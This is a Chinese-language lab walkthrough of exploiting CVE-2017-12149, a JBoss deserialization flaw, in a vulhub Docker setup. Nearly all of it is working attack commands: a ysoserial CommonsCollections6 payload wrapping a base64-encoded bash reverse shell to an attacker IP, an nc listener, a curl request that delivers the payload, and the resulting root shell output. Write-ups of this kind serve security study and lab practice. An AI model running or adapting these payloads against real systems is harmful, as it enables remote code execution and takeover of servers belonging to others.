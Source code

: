 # CVE-2017-12149

漏洞环境搭建，下在vulhub，cd到对应的目录执行以下命令

{% embed url="https://github.com/vulhub/vulhub" %}

```
docker-compose up -d
```

好了访问目标8080端口

<figure><img src="../../.gitbook/assets/image (54).png" alt=""><figcaption></figcaption></figure>

访问/invoker/readonly这个路径相应500，说明存在漏洞

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

漏洞利用环境准备，下载ysoserial用来生成利用链

{% embed url="https://github.com/frohoff/ysoserial.git" %}

执行以下命令生产POC

```
┌──(root㉿kali)-[~/Desktop/tool/jdk1.8.0_202/bin]
└─# ./java -jar ../../Deserialization/ysoserial/target/ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzLjEyOS85OTkyIDA+JjE=}|{base64,-d}|{bash,-i}" > /root/Desktop/test/poc.ser
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

nc开启监听

```
nc -lnvp 9992
```

通过burp发送poc没有没有返回shell

<figure><img src="../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

通过curl发送该poc

```
┌──(root㉿kali)-[~/Desktop/test]
└─# curl http://192.168.23.132:8080/invoker/readonly --data-binary @poc.ser
```

监听端口返回一个shell

```
┌──(root㉿kali)-[~]
└─# nc -nlvp 9992
listening on [any] 9992 ...
connect to [192.168.23.129] from (UNKNOWN) [192.168.23.132] 42670
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@81b0d810cbbf:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```
